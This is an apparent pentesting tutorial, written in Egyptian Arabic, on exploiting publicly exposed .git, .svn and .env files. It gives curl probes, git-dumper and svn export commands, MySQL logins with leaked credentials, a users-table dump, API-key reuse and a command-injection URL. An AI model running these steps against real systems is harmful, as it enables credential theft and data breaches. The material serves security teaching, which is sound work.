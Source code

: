 # **1. إيه هي Publicly Accessible .git, .svn, .env Files؟**

## **الشرح العميق:**
الملفات دي هي ملفات بتستخدم في تطوير البرامج أو إدارة المواقع، ولما تكون "Publicly Accessible" يعني إنها مكشوفة على الإنترنت وأي حد يقدر يوصلها بسهولة من المتصفح أو أدوات. ده بيحصل لما المبرمج أو المسؤول يسيبها في مكان عام (زي مجلد الويب الرئيسي) من غير ما يحميها. كل ملف ليه دوره:

- **.git:** مجلد بيحتوي على تاريخ كود الموقع (Git Repository) زي التعديلات والملفات القديمة. لو مكشوف، يقدر المهاجم ينزل الكود كله.
- **.svn:** مجلد بتاع نظام Subversion (SVN) لإدارة الكود. لو متاح، بيكشف الملفات والتاريخ بتاع المشروع.
- **.env:** ملف بيحتوي على متغيرات البيئة زي كلمات سر قاعدة البيانات، مفاتيح API، أو أسرار تانية. لو مكشوف، بيدي المهاجم كل المفاتيح.

## **الأدوات والأوامر العملية:**
### 1. **فحص .git:**
   - جرب في المتصفح: `http://target.com/.git/`.
   - لو ظهر "403" أو "Index of"، يبقى موجود:
     - استخدم أداة زي `git-dumper`:
       - `git-dumper http://target.com/.git/ /local/path`.
       - هينزل الـ Repository كله.

### 2. **فحص .svn:**
   - جرب: `http://target.com/.svn/entries`.
   - لو ظهر محتوى، استخدم `svn export`:
     - `svn export http://target.com/.svn/ /local/path`.

### 3. **فحص .env:**
   - جرب: `http://target.com/.env`.
   - لو ظهر، اقراه:
     - `curl http://target.com/.env` -> لو لقيت `DB_PASSWORD=secret123`، يبقى لقيت كنز.

## **خلاصة بالعامية المصرية:**
"يعني الملفات دي زي دفتر يومياتك اللي فيه كل أسرارك، وسايبه في الشارع! .git زي أرشيف شغلك، .svn زي السجل بتاعك، و.env زي كلمة سر خزنة فلوسك."

---

# **2. ليه المشكلة دي خطيرة؟**

## **الشرح العميق:**
لما الملفات دي تكون مكشوفة، بتفتح الباب للمهاجم يعمل حاجات خطيرة:
- **من .git:** يقدر ينزل كود الموقع كله، يلاقي ثغرات، أو يعرف إزاي السيستم شغال.
- **من .svn:** نفس الفكرة، يشوف الملفات القديمة أو التعديلات ويستغل أي ضعف.
- **من .env:** ياخد كلمات سر قاعدة البيانات، مفاتيح API، أو أي حاجة حساسة، ويستخدمها عشان يدخل أو يصعد صلاحياته.

في النهاية، الملفات دي بتكون زي خريطة كنز للمهاجم، بتديله كل المعلومات اللي يحتاجها عشان يخترق النظام.

## **الأدوات والأوامر العملية:**
### 1. **استغلال .git:**
   - بعد ما تنزل الـ Repository:
     - `cd /local/path && git log` -> تشوف التعديلات.
     - ابحث عن ملفات حساسة زي `config.php` في الـ Commits:
       - `git show <commit_id>`.

### 2. **استغلال .svn:**
   - لو نزلت الملفات:
     - `cat /local/path/.svn/entries` -> ابحث عن بيانات زي كلمات سر.
   - أو: `svn checkout http://target.com/.svn/` -> تجيب الكود.

### 3. **استغلال .env:**
   - لو لقيت: `DB_USERNAME=admin DB_PASSWORD=secret123`:
     - `mysql -u admin -psecret123 -h target.com`.
     - `SHOW DATABASES;` -> `USE db_name;` -> `SELECT * FROM users;`.

## **خلاصة بالعامية المصرية:**
"الملفات دي لما تبقى مكشوفة، زي ما تكون سايب كل أسرارك على القهوة! المهاجم يلاقيها، ياخد الكود، يعرف كل حاجة، ويخش يلعب على كيفه في البيت بتاعك."

---

# **3. إزاي نستغلها في الـ Pentesting؟**
- **الهدف:** تستخدم الملفات المكشوفة دي عشان تجمع معلومات أو تاخد وصول أعلى (تصعيد صلاحيات).
- **مثال واقعي:** لو لقيت .env فيه كلمة سر قاعدة بيانات، تدخل عليها وتسرق بيانات المستخدمين.

## **خلاصة بالعامية المصرية:**
"لما تلاقي الحاجات دي مفتوحة، زي ما تكون لقيت كنز في الشارع! بتاخده، تفتح بيه الأبواب، وتبقى الكبير بتاع الموقع."

---

# **خطوات عملية للاستغلال في Pentesting**

## **الخطوة 1: فحص الهدف**
- شغل Nmap:
  - `nmap -sV 192.168.1.10`.
- افترض النتيجة:
  - Port 80: Apache 2.4.29.

## **الخطوة 2: البحث عن الملفات المكشوفة**
- جرب في المتصفح أو بـ curl:
  - `curl http://192.168.1.10/.git/HEAD` -> لو رجع `ref: refs/heads/master`، يبقى موجود.
  - `curl http://192.168.1.10/.svn/entries` -> لو ظهر، يبقى SVN مكشوف.
  - `curl http://192.168.1.10/.env` -> لو ظهر متغيرات، اقراه.

## **الخطوة 3: استغلال .git**
- لو لقيت .git مكشوف:
  - `git-dumper http://192.168.1.10/.git/ /tmp/git_dump`.
  - `cd /tmp/git_dump && git log` -> ابحث عن ملفات زي `config.php`.
  - `git show <commit_id>` -> لو لقيت `$db_pass = "secret123";`.

## **الخطوة 4: استغلال .svn**
- لو لقيت .svn:
  - `svn export http://192.168.1.10/.svn/ /tmp/svn_dump`.
  - `cat /tmp/svn_dump/.svn/entries` -> ابحث عن بيانات حساسة.

## **الخطوة 5: استغلال .env**
- لو لقيت .env:
  - `curl http://192.168.1.10/.env` -> افترض رجع:
    - `DB_USERNAME=admin DB_PASSWORD=pass123`.
  - استخدمها:
    - `mysql -u admin -ppass123 -h 192.168.1.10`.
    - `SELECT * FROM users;` -> تسريب بيانات.

## **الخطوة 6: تصعيد الصلاحيات**
- لو لقيت API Key في .env (زي `API_KEY=xyz123`):
  - جرب تستخدمه في طلبات API:
    - `curl -H "Authorization: Bearer xyz123" http://192.168.1.10/api/admin`.
- لو لقيت كود في .git ينفع لـ Command Injection:
  - ارفع shell بناءً على الثغرة:
    - `http://192.168.1.10/vuln.php?cmd=id`.

## **الخطوة 7: توثيق**
- سجل كل الملفات المكشوفة والبيانات اللي لقيتها.
- قدم تقرير يوضح إزاي الملفات دي ممكن تدمر النظام.

## **خلاصة بالعامية المصرية:**
"الخطوات دي زي ما تكون لقيت كشكول أسرار الموقع في الشارع، فتحته، خدت كل حاجة، وطلعت الكبير بتاع الحتة! الملفات دي لما تبقى مكشوفة، تبقى طريقك للنصر."

---

# **الخلاصة النهائية:**
Publicly Accessible .git, .svn, .env Files هي ثغرات كبيرة لأنها بتكشف كود الموقع، تاريخه، وأسراره زي كلمات السر. في الـ Pentesting، دور عليها بـ curl أو أدوات زي git-dumper، استغلها عشان تسرق بيانات أو تاخد shell، ووري العميل إن نظامه زي كتاب مفتوح! بالطريقة دي، تقدر تبقى البطل بتاع اللعبة بسهولة!